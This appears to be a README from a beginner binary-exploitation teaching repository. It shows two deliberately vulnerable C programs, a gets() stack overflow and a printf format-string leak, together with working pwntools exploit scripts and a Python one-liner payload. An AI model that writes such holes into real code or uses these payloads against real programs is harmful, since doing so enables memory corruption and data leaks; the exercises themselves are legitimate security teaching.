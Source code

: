 # Easy Category :> Binary Exploitation
- This category contains simple programs i have written to demonstrate basic techniques in binary explotation .
- It covers the main topics but with most security features turned off.  Enjoy :D

## bof
- This are the files <a href="./bof">here</a>
``` 
#include <stdio.h>

int main() {
    int check = 0;
    char input[40];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to udsm-coict! ");
    gets(input);

    if (check == 0xdeadbeed) {
        puts("Congrats, here's a flag!\n");
        system("/bin/cat flag.txt\n");
    }
}
```
- We are expected to overflow the variable input to a point where we overright the variable check with the right characters to pass the if condition .
```
#!/usr/bin/python3
from pwn import *

class con:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr", "port")
                return p
def exploit():
        p = con.local()
        print(p.recvline())
        offset = 40
        addr = p32(0xdeadbeed)
        payload = b"A"*offset + addr 
        p.sendline(payload)
        print(p.recvall())
if __name__ == "__main__":
        exploit()
```
- First i find the offset where our input starts to overright the variable check . i get its 40 then what follows is the word i want to overflow...Taking into account the little endiannes concept.
``` We can also do this with the struct module of python..
this would result to the following exploit :
python3 -c"import struct;print(b'A'*40 + struct.pack('<I',0xdeadbeed))" > exploit1
cat exploit1 | ./pwn
wiiiih :)
```
## format string
- This are the files <a href="./string_format">here</a>
```
➜  string_format git:(master) ✗ cat pwn.c
#include <stdio.h>

void buffer_init() {
        setbuf(stdout, NULL);
        setbuf(stdin, NULL);
        setbuf(stderr, NULL);
}

int main() {
        char name[32];
        char flag[64];
        char *flag_ptr = flag;

        buffer_init();
        FILE *file = fopen("./flag.txt", "r");
        if (file == NULL) {
                printf("Please, create 'flag.txt' for debugging.\n");
                exit(0);
        }

        fgets(flag,sizeof(flag),file);

        while(1) {
                printf("What is your name?\n");
                fgets(name,sizeof(name),stdin);
                printf("\nHello there, ");
                printf(name);
                printf("\n");
        }
        return 0;
}
```
The bug is at the printf function where the function is not given a format in which it should print the contents of name variable.To mean a format specifier is not provided xD.
```
#!/usr/bin/python3

from pwn import *

class conn:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr",port)
                return p

def exploit():
        p = conn.local()
        print(p.recvline())
        payload = b"%p"*16
        p.sendline(payload)
        flag = str(p.recvuntil(b"What is")).replace("(nil)",'')
        flag = flag.replace("\\n",'')
        flag = flag.replace("'",'')
        flag = flag.replace("What is",'')
        print(flag)
        print("Wiiihiiiiihihihih :)")
        decoded_flag = []
        for element in flag.split("0x")[1:]:
            decoded_flag.append(str(p32(int("0x" + element,16))))
        decoded_flag = ''.join(decoded_flag)
        print(decoded_flag.replace("'b'",''))
        p.close()

if __name__ == "__main__":
        exploit()
```
## Buffer\_yt
 - files <a href="./Buffer_yt">here</a>
## Jump\_yt
 - files <a href="./Jump_yt">here</a>

Happy hacking :D
wiiih  :)
